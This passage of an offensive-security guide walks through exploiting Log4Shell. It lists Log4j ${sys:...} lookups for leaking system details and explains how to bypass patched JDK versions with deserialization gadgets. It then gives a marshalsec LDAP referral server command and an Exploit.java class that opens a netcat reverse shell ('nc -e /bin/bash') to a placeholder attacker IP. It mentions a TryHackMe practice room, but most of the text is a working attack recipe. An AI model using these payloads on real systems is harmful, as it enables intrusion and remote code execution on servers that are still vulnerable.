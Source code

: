 ```
${sys:java.vm.specification.vendor}
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

Any other env variable name that could store sensitive information
```

### RCE Information

{% hint style="info" %}
Hosts running on JDK versions above 6u141, 7u131, or 8u121 are safeguarded against the LDAP class loading attack vector. This is due to the default deactivation of `com.sun.jndi.ldap.object.trustURLCodebase`, which prevents JNDI from loading a remote codebase via LDAP. However, it's crucial to note that these versions are **not protected against the deserialization attack vector**.

For attackers aiming to exploit these higher JDK versions, it's necessary to leverage a **trusted gadget** within the Java application. Tools like ysoserial or JNDIExploit are often used for this purpose. On the contrary, exploiting lower JDK versions is relatively easier as these versions can be manipulated to load and execute arbitrary classes.

For **more information** (_like limitations on RMI and CORBA vectors_) **check the previous JNDI Naming Reference section** or [https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)
{% endhint %}

### RCE - Marshalsec with custom payload

You can test this in the **THM box:** [**https://tryhackme.com/room/solar**](https://tryhackme.com/room/solar)

Use the tool [**marshalsec**](https://github.com/mbechler/marshalsec) (jar version available [**here**](https://github.com/RandomRobbieBF/marshalsec-jar)). This approach establishes a LDAP referral server to redirect connections to a secondary HTTP server where the exploit will be hosted:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```

To prompt the target to load a reverse shell code, craft a Java file named `Exploit.java` with the content below:

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
